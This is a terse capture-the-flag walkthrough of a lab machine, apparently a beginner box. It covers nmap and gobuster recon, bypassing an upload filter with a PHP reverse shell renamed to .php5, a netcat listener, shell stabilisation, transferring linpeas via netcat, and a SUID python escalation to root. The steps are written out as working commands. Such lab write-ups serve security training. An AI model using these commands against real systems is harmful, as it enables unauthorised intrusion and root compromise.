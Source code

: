 ```
nmap -sC -sV -Pn -T3 -oN nmap/initial $IP
gobuster dir -u "http://$IP" -w /opt/wordlists/big.txt -t 16 | tee gobuster.log
```

Upload my phprev.php shell to /panel/
Didn't work. Renamed to `phprev.php5`
That worked. Launch reverse shell
```
nc -lnvp 1234
```

Stabilize shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z.
stty raw -echo;
fg
```

Find user.txt
```
find / -name user.txt
/var/www/user.txt
```

# linpeas!
target terminal:
```
nc -l -p 1234 > /tmp/jake &
```

my terminal:
```
nc $IP $PORT < linpeas.sh
```

Finally, run:
```
chmod +x /tmp/jake
/tmp/jake
```

We see that python is vulnerable. From GTFOBins:
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
And we have root!
